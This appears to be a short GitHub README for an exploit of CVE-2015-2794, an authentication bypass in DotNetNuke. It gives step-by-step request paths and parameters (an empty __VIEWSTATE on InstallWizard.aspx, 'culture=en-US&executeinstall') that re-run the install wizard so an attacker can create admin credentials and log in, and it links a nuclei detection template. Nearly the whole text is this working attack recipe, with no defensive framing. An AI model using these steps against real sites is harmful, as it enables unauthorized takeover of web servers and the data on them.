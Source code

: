 # Exploit Title: DotNetNuke Administration Authentication Bypass



templates

https://github.com/projectdiscovery/nuclei-templates/blob/fcd3d55a60c8d8b61395e6056e83a6b08268cc11/http/cves/2015/CVE-2015-2794.yaml



Step 1: /Install/InstallWizard.aspx?__VIEWSTATE=

Step 2: Fill all infor

Step 3: CLick continue if it don't work, just add &culture=en-US&executeinstall

or you get any error ex: 500,... just removing __VIEWSTATE=

Install/InstallWizard.aspx?culture=en-US&executeinstall

Step 4: Login /Home/tabid/36/ctl/Login/Default.aspx



![454444](https://github.com/Kro0oz/-DotNetNuke-Administration-Authentication-Bypass/assets/72355033/5d5c8f9c-0833-4e18-b7be-365643379080)

